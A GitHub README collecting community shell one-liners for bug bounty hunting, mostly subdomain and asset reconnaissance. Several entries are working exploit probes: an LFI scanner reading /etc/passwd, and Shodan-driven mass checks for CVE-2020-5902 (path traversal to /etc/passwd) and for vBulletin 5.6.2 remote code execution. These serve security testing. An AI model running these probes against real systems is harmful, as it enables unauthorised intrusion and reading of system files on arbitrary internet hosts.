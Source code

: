 # Awesome One-liner Bug Bounty [![Awesome](https://awesome.re/badge-flat2.svg)](https://awesome.re)
> A collection of awesome one-liner scripts especially for bug bounty.

This repository stores and houses various one-liner for bug bounty tips provided by me as well as contributed by the community. Your contributions and suggestions are heartily♥ welcome.

---

### Local File Inclusion
> @dwisiswant0

```bash
gau $1 | gf lfi | qsreplace "/etc/passwd" | xargs -I % -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

### Open-redirect
> @dwisiswant0

```bash
export LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```

### XSS
> @cihanmehmet

```bash
gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o result.txt
```
f
### CVE-2020-5902
> @Madrobot_

```bash
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
```

### vBulletin 5.6.2 - 'widget_tabbedContainer_tab_panel' Remote Code Execution
> @Madrobot_

```bash
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
```

### Find JS Files
> @D0cK3rG33k

```bash
assetfinder site.com | gau|egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)'|while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" |sed -e 's, 'var','"$url"?',g' -e 's/ //g'|grep -v '.js'|sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars";done
```

### Extract Endpoints from JS File
> @renniepak

```bash
cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```

### Get CIDR & Orgz from Target Lists
> @steve_mcilwain

```bash
for DOMAIN in $(cat domains.txt);do echo $(for ip in $(dig a $DOMAIN +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " " | paste - -; d
one | uniq); done
```

### Get Subdomains from RapidDNS.io
> @andirrahmani1

```bash
curl -s "https://rapiddns.io/subdomain/$1?full=1#result" | grep "<td><a" | cut -d '"' -f 2 | grep http | cut -d '/' -f3 | sed 's/#results//g' | sort -u
```

### Get Subdomains from BufferOver.run
> @\_ayoubfathi\_

```bash
curl -s https://dns.bufferover.run/dns?q=.DOMAIN.com |jq -r .FDNS_A[]|cut -d',' -f2|sort -u
```

### Get Subdomains from Riddler.io
> @pikpikcu
```bash
curl -s "https://riddler.io/search/exportcsv?q=pld:domain.com" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u 
```

### Get Subdomains from VirusTotal
> @pikpikcu
```bash
curl -s "https://www.virustotal.com/ui/domains/domain.com/subdomains?limit=40" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
```

### Get Subdomains from CertSpotter
> @pikpikcu
```bash
curl -s "https://certspotter.com/api/v0/certs?domain=domain.com" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
```

### Get Subdomains from Archive
> @pikpikcu
```bash
curl -s "http://web.archive.org/cdx/search/cdx?url=*.domain.com/*&output=text&fl=original&collapse=urlkey" | sed -e 's_https*://__' -e "s/\/.*//" | sort -u
```

### Get Subdomains from JLDC
> @pikpikcu
```bash
curl -s "https://jldc.me/anubis/subdomains/domain.com" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
```

### Get Subdomains from crt.sh
> @vict0ni

```bash
curl -s "https://crt.sh/?q=%25.$1&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | sort -u
```

### Sort & Tested Domains from Recon.dev
> @stokfedrik

```bash
curl "https://recon.dev/api/search?key=apikey&domain=example.com" |jq -r '.[].rawDomains[]' | sed 's/ //g' | sort -u |httpx -silent
```

### Find All Allocated IP ranges for ASN given an IP address
> wains.be

```bash
whois -h whois.radb.net -i origin -T route $(whois -h whois.radb.net $1 | grep origin: | awk '{print $NF}' | head -1) | grep -w "route:" | awk '{print $NF}' | sort -n
```

### Extract IPs from a File
> @emenalf

```bash
grep -E -o '(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)' file.txt
```

### Ports Scan without CloudFlare
> @dwisiswant0

```bash
subfinder -silent -d uber.com | filter-resolved | cf-check | sort -u | naabu -rate 40000 -silent -verify | httprobe
```

### Create Custom Wordlists
> @tomnomnom

```bash
gau domain.com| unfurl -u keys | tee -a wordlist.txt ; gau domain.com | unfurl -u paths|tee -a ends.txt; sed 's#/#\n#g' ends.txt  | sort -u | tee -a wordlist.txt | sort -u ;rm ends.txt  | sed -i -e 's/\.css\|\.png\|\.jpeg\|\.jpg\|\.svg\|\.gif\|\.wolf\|\.bmp//g' wordlist.txt
```

```bash
cat domains.txt | httprobe | xargs curl | tok | tr '[:upper:]' '[:lower:]' | sort -u | tee -a words.txt  
```

### Extracts Juicy Informations
> @Prial Islam Khan

```bash
for sub in $(cat domains.txt);do /usr/bin/gron "https://otx.alienvault.com/otxapi/indicator/hostname/url_list/$sub?limit=100&page=1" | grep "\burl\b" | gron --ungron | jq |egrep -wi 'url' | awk '{print $2}' | sed 's/"//g'| sort -u | tee -a file.txt  ;done
```

### Find Subdomains TakeOver
> @hahwul

```bash
subfinder -d {target} >> domains ; assetfinder -subs-only {target} >> domains ; amass enum -norecursive -noalts -d {target} >> domains ; subjack -w domains -t 100 -timeout 30 -ssl -c ~/go/src/github.com/haccer/subjack/fingerprints.json -v 3 >> takeover ; 
```

### Get multiple target's Custom URLs from ParamSpider
> @hahwul

```bash
cat domains | xargs -I % python3 ~/tool/ParamSpider/paramspider.py -l high -o ./spidering/paramspider/% -d % ;
```

### URLs Probing with cURL + Parallel
> @akita_zen

```bash
cat alive-subdomains.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t  Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
```

### Dump In-scope Assets from `bounty-targets-data`
> @dwisiswant0

#### HackerOne Programs

```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/blob/master/data/hackerone_data.json?raw=true | jq -r '.[].targets.in_scope[] | [.asset_identifier, .asset_type] | @tsv'
```

#### BugCrowd Programs

```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/raw/master/data/bugcrowd_data.json | jq -r '.[].targets.in_scope[] | [.target, .type] | @tsv'
```

#### Intigriti Programs

```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/raw/master/data/intigriti_data.json | jq -r '.[].targets.in_scope[] | [.endpoint, .type] | @tsv'
```

#### YesWeHack Programs

```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/raw/master/data/yeswehack_data.json | jq -r '.[].targets.in_scope[] | [.target, .type] | @tsv'
```

#### HackenProof Programs

```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/raw/master/data/hackenproof_data.json | jq -r '.[].targets.in_scope[] | [.target, .type, .instruction] | @tsv'
```

#### Federacy Programs

```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/raw/master/data/federacy_data.json | jq -r '.[].targets.in_scope[] | [.target, .type] | @tsv'
```

###  Get all the urls out of a sitemap.xml
> @healthyoutlet

```bash
curl -s domain.com/sitemap.xml | xmllint --format - | grep -e 'loc' | sed -r 's|</?loc>||g'
```
